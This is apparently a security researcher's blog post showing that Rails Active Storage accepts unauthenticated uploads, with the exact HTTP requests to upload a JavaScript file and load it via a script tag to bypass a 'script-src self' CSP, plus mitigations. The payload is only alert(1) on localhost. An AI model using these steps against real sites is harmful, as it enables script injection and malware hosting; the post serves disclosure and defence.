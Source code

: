```yaml
---
layout: post
title: "Rails & Active Storage"
summary: "Unauthenticated file upload & possible CSP bypass"
date:   2025-06-30 16:10:00 -0400
categories: Web 
---
```


# Using Rails' Active Storage And Bypass CSP

> TLDR: ActiveStorage from Rails allows unauthenticated file uploads. It cannot be used directly for XSS, but can be used to bypass CSP (or to host malware).

Active Storage is a built-in feature in Rails that allows users to upload files. It is often used to attach profile pictures to a user. Developers can configure where files are stored. Those can be on the disk, on S3 buckets, Google Cloud Storage, etc. Files can also be transformed using `ffmpeg`, `muPDF` , `ImageMagick` and some other tools.

When enabled, this feature is accessible, by default, to unauthenticated users. They can upload any files to the app and download them. They can even reach endpoints that transform files into other formats! This would allow an attacker to abuse a vulnerable version of `ImageMagick` and potentially gain RCE.

To mitigate the risks of XSS, files are returned by the server alongside the HTTP header `Content-Disposition: attachment`for most filetypes. This header tells the browser to download the file instead of rendering it directly. So, instead of having your `alert(1)`, your browser would ask you to download the file.

A couple of security considerations also exist:

- Filenames are sanitized [here](https://github.com/rails/rails/blob/main/activestorage/app/models/active_storage/filename.rb#L59,L61), which helps prevent injections (RCE, headers):
  
  ```rb
    def sanitized
      @filename.encode(Encoding::UTF_8, invalid: :replace, undef: :replace, replace: "�").strip.tr("\u{202E}%$|:;/<>?*\"\t\r\n\\", "-")
    end
  ```
  
- Content-types are validated against a list. Only [these](https://github.com/rails/rails/blob/main/activestorage/lib/active_storage/engine.rb#L65-L76) can be inlined:
  
  ```rb
    config.active_storage.content_types_allowed_inline = %w(
      image/webp
      image/avif
      image/png
      image/gif
      image/jpeg
      image/tiff
      image/bmp
      image/vnd.adobe.photoshop
      image/vnd.microsoft.icon
      application/pdf
    )
  ```

  As far as I know, none of these can be used for XSS.
 
 - There might be anti CSRF, we'd need a token first.

## CSP Bypass

If there's a CSP similar to `Content-Security-Policy: script-src 'self';`, this would prevent any payload like `<script>alert(1)</script>` and `<svg onload=alert(1)>`. By uploading a JavaScript file using Active Storage, it allows an attacker to bypass this restriction. Even when files have the `Content-Disposition: attachment` header, the browser will happily load and execute JavaScript if we use the `<script src>` like so: `<script src="//example.com/test.js"></script>`.

## Technical Details

The following details assume the configuration allows users to upload files on the disk directly. This is just for simplicity; similar payloads would work if the application is using S3 or other cloud providers.

Configuring Active Storage is pretty straightforward and you can follow the official doc [here](https://guides.rubyonrails.org/active_storage_overview.html).

### Exposed Routes

All accessible routes are defined in this [routes.rb](https://github.com/rails/rails/blob/main/activestorage/config/routes.rb) file. Here is more information on the relevant ones in our case. They can be accessed via `example.com/rails/active_storage/*`. All routes are implemented in `activestorage/app/controllers/active_storage/*.rb`.

```rb
post "/direct_uploads" # Allows us to create an "empty file"
put  "/disk/:encoded_token" # Allows us to upload the file content
get "/blobs/proxy/:signed_id/*filename" # Allows us to see the file
```

### Create The File

```
POST /rails/active_storage/direct_uploads HTTP/1.1
Host: localhost:3000
Content-type: application/json
Content-Length: 145

{ "blob":{ "filename":"test.js", "byte_size":"460", "checksum":"sfeC7XeVlcORGXQTjSHrcw==", "content_type":"text/javascript", "metadata": {} } }
```

The server should respond with a blob of JSON containing all the info we need.

```json
{
  "id": 63,
  "key": "sduznqminzw7q2qnnfaekukgfcam",
  "filename": "test.js",
  "content_type": "text/javascript",
  "metadata": {},
  "service_name": "local",
  "byte_size": 8,
  "checksum": "I46W1bYqGuw3OXMEafJxkg==",
  "created_at": "2025-04-23T23:35:38.274Z",
  "attachable_sgid": "eyJfcmFpbHMiOnsiZGF0YSI6ImdpZDovL3Byb3h5LXhzcy9BY3RpdmVTdG9yYWdlOjpCbG9iLzYzP2V4cGlyZXNfaW4iLCJwdXIiOiJhdHRhY2hhYmxlIn19--96b3263fa7716e9cd776a927e6669e80ce2ede68",
  "signed_id": "eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1ciI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198",
  "direct_upload": {
    "url": "http://localhost:3000/rails/active_storage/disk/eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiJzZHV6bnFtaW56dzdxMnFubmZhZWt1a2dmY2FtIiwiY29udGVudF90eXBlIjoidGV4dC9qYXZhc2NyaXB0IiwiY29udGVudF9sZW5ndGgiOjgsImNoZWNrc3VtIjoiSTQ2VzFiWXFHdXczT1hNRWFmSnhrZz09Iiwic2VydmljZV9uYW1lIjoibG9jYWwifSwiZXhwIjoiMjAyNS0wNC0yM1QyMzo0MDozOC4yOTlaIiwicHVyIjoiYmxvYl90b2tlbiJ9fQ==--30cd81cba0dc75cb2505313ce2bd4d67c57566cd",
    "headers": {
      "Content-Type": "text/javascript"
    }
  }
}
```

### Add Content To the File

We need to take the `url` from the JSON above and add our content:

```
PUT /rails/active_storage/disk/eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiJzZHV6bnFtaW56dzdxMnFubmZhZWt1a2dmY2FtIiwiY29udGVudF90eXBlIjoidGV4dC9qYXZhc2NyaXB0IiwiY29udGVudF9sZW5ndGgiOjgsImNoZWNrc3VtIjoiSTQ2VzFiWXFHdXczT1hNRWFmSnhrZz09Iiwic2VydmljZV9uYW1lIjoibG9jYWwifSwiZXhwIjoiMjAyNS0wNC0yM1QyMzo0MDozOC4yOTlaIiwicHVyIjoiYmxvYl90b2tlbiJ9fQ==--30cd81cba0dc75cb2505313ce2bd4d67c57566cd HTTP/1.1
Host: localhost:3000
Content-type: text/javascript
Content-Length: 8

alert(1)
```

### Retrieve The File

Just take the `signed_id` and add it to the `/blobs/proxy` URL.
```
GET /rails/active_storage/blobs/proxy/eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1ciI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198/test.js HTTP/1.1
```

Or, `<script src="http://localhost:3000/rails/active_storage/blobs/proxy/eyJfcmFpbHMiOnsiZGF0YSI6NjMsInB1ciI6ImJsb2JfaWQifX0=--5ced2e88192089617d33f635398bb4a7595ba198/test.js"></script>`

And you should get your `alert(1)`.

### Transformations

A couple of endpoints allow conversion of PDF/Videos to PNG. They begin with `/representations`:

```rb
get "/representations/redirect/:signed_blob_id/:variation_key/*filename"
get "/representations/proxy/:signed_blob_id/:variation_key/*filename"
get "/representations/:signed_blob_id/:variation_key/*filename"
```

They all seem secure, meaning we don't have control over the arguments being passed to the converters, nor do we have control over the filename. If there's a known vulnerability in one of the converters (not that ImageMagick is known for having vulnerabilities, but...), this might allow us to trigger it.

## Mitigations
There are a couple of mitigations possible:
- Keep patching and having up-to-date rails and converters
- Restrict the transformations/previewers with `config.active_storage.analyzers` and `config.active_storage.previewers`
- Do not expose the routes by setting `config.active_storage.draw_routes` to false
- Run a task to delete unattached files with `purge_unattached`. Reference [here](https://guides.rubyonrails.org/active_storage_overview.html#purging-unattached-uploads)
- Use a subdomain to host files
- Run scanners against file when they are uploaded with `after_create`
